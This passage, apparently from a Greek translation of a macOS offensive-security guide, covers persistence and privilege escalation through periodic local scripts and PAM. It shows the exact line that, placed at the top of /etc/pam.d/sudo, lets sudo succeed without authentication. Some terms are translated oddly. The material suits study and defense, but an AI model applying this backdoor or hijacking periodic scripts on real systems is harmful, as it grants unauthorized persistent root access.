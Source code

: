 Υπάρχουν και άλλα περιοδικά scripts που θα εκτελεστούν όπως υποδεικνύεται στο **`/etc/defaults/periodic.conf`**:
```bash
grep "Local scripts" /etc/defaults/periodic.conf
daily_local="/etc/daily.local"				# Local scripts
weekly_local="/etc/weekly.local"			# Local scripts
monthly_local="/etc/monthly.local"			# Local scripts
```
Εάν καταφέρετε να γράψετε οποιοδήποτε από τα αρχεία `/etc/daily.local`, `/etc/weekly.local` ή `/etc/monthly.local` θα **εκτελεστεί νωρίτερα ή αργότερα**.

{% hint style="warning" %}
Σημειώστε ότι το περιοδικό script θα **εκτελεστεί ως ο ιδιοκτήτης του script**. Έτσι, εάν ένας κανονικός χρήστης είναι ιδιοκτήτης του script, θα εκτελεστεί ως αυτός ο χρήστης (κάτι που μπορεί να αποτρέψει επιθέσεις εξάρτησης από δικαιώματα).
{% endhint %}

### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Χρήσιμο για παράκαμψη αμμουδιάς: [🟠](https://emojipedia.org/large-orange-circle)
* Αλλά χρειάζεστε δικαιώματα ρίζας
* Παράκαμψη TCC: [🔴](https://emojipedia.org/large-red-circle)

#### Τοποθεσία

* Πάντα απαιτείται ρίζα

#### Περιγραφή & Εκμετάλλευση

Καθώς το PAM είναι περισσότερο εστιασμένο στη **μόνιμη διατήρηση** και στο malware παρά στην εύκολη εκτέλεση μέσα στο macOS, αυτό το blog δεν θα δώσει μια λεπτομερή εξήγηση, **διαβάστε τα writeups για να κατανοήσετε καλύτερα αυτή την τεχνική**.

Ελέγξτε τα modules PAM με:
```bash
ls -l /etc/pam.d
```
Μια τεχνική διατήρησης/ανόδου προνομίων που καταχράζεται το PAM είναι τόσο εύκολη όσο το να τροποποιήσετε το module /etc/pam.d/sudo προσθέτοντας στην αρχή τη γραμμή:
```bash
auth       sufficient     pam_permit.so
```
Έτσι θα **μοιάζει** κάτι τέτοιο:
```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
Και επομένως οποιαδήποτε προσπάθεια χρήσης **`sudo` θα λειτουργήσει**.
